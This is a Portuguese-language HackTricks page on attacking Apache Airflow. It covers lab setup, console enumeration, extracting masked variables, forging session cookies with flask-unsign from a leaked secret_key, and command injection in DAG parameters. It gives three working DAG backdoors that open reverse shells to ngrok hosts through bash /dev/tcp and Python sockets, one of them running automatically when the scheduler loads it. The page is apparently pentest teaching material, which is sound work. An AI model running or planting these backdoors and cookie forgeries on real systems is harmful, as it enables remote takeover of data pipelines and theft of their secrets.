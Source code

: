 # Segurança do Apache Airflow

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

[**Apache Airflow**](https://airflow.apache.org) é usado para a **programação e _orquestração de pipelines de dados ou fluxos de trabalho**. Orquestração de pipelines de dados refere-se à sequenciação, coordenação, programação e gerenciamento de pipelines de dados complexos de fontes diversas. Esses pipelines de dados fornecem conjuntos de dados prontos para consumo por aplicações de inteligência de negócios e modelos de ciência de dados e aprendizado de máquina que suportam aplicações de big data.

Basicamente, o Apache Airflow permitirá que você **programe a execução de código quando algo** (evento, cron) **acontecer**.

## Laboratório Local

### Docker-Compose

Você pode usar o **arquivo de configuração docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lançar um ambiente docker completo do apache airflow. (Se você estiver no MacOS, certifique-se de dar pelo menos 6GB de RAM para a VM do docker).

### Minikube

Uma maneira fácil de **executar o apache airflow** é rodá-lo **com minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuração do Airflow

O Airflow pode armazenar **informações sensíveis** em sua configuração ou você pode encontrar configurações fracas em vigor:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC do Airflow

Antes de começar a atacar o Airflow, você deve entender **como as permissões funcionam**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataques

### Enumeração da Console Web

Se você tem **acesso à console web**, você pode ser capaz de acessar algumas ou todas as seguintes informações:

* **Variáveis** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* **Conexões** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* Acesse-as em `http://<airflow>/connection/list/`
* [**Configuração**](./#airflow-configuration) (Informações sensíveis como a **`secret_key`** e senhas podem ser armazenadas aqui)
* Listar **usuários & papéis**
* **Código de cada DAG** (que pode conter informações interessantes)

### Recuperar Valores de Variáveis

Variáveis podem ser armazenadas no Airflow para que os **DAGs** possam **acessar** seus valores. É semelhante aos segredos de outras plataformas. Se você tem **permissões suficientes**, você pode acessá-las na GUI em `http://<airflow>/variable/list/`.\
Por padrão, o Airflow mostrará o valor da variável na GUI, no entanto, de acordo com [**isto**](https://marclamberti.com/blog/variables-with-apache-airflow/), é possível definir uma **lista de variáveis** cujo **valor** aparecerá como **asteriscos** na **GUI**.

![](<../../.gitbook/assets/image (79).png>)

No entanto, esses **valores** ainda podem ser **recuperados** via **CLI** (você precisa ter acesso ao DB), **execução de DAG arbitrária**, **API** acessando o endpoint de variáveis (a API precisa ser ativada), e **até mesmo a própria GUI!**\
****Para acessar esses valores da GUI, basta **selecionar as variáveis** que deseja acessar e **clicar em Ações -> Exportar**.\
Outra maneira é realizar um **bruteforce** ao **valor oculto** usando o **filtro de pesquisa** até obtê-lo:

![](<../../.gitbook/assets/image (30).png>)

### Escalonamento de Privilégios

Se a configuração **`expose_config`** estiver definida como **True**, a partir do **papel de Usuário** para cima, pode-se **ler** a **configuração na web**. Nesta configuração, a **`secret_key`** aparece, o que significa que qualquer usuário com este valor válido pode **criar seu próprio cookie assinado para se passar por qualquer outra conta de usuário**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Backdoor em DAG (RCE no worker do Airflow)

Se você tem **acesso de escrita** ao local onde os **DAGs são salvos**, você pode simplesmente **criar um** que enviará para você um **reverse shell.**\
Observe que esse reverse shell será executado dentro de um **container do worker do airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Backdoor em DAG (RCE no agendador do Airflow)

Se você configurar algo para ser **executado na raiz do código**, no momento em que isto é escrito, será **executado pelo agendador** alguns segundos após ser colocado dentro da pasta dos DAGs.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Criação de DAG

Se você conseguir **comprometer uma máquina dentro do cluster DAG**, você pode criar novos **scripts DAGs** na pasta `dags/` e eles serão **replicados no restante das máquinas** dentro do cluster DAG.

### Injeção de Código em DAG

Quando você executa um DAG pela GUI, você pode **passar argumentos** para ele.\
Portanto, se o DAG não for codificado corretamente, ele pode ser **vulnerável a Injeção de Comando.**\
Foi o que aconteceu neste CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tudo o que você precisa saber para **começar a procurar por injeções de comando em DAGs** é que os **parâmetros** são **acessados** com o código **`dag_run.conf.get("param_name")`**.

Além disso, a mesma vulnerabilidade pode ocorrer com **variáveis** (note que com privilégios suficientes você poderia **controlar o valor das variáveis** na GUI). Variáveis são **acessadas com**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se forem usados, por exemplo, dentro de um comando bash, você poderia realizar uma injeção de comando.

<details>

<summary><strong>Aprenda hacking em AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo do** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo do [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
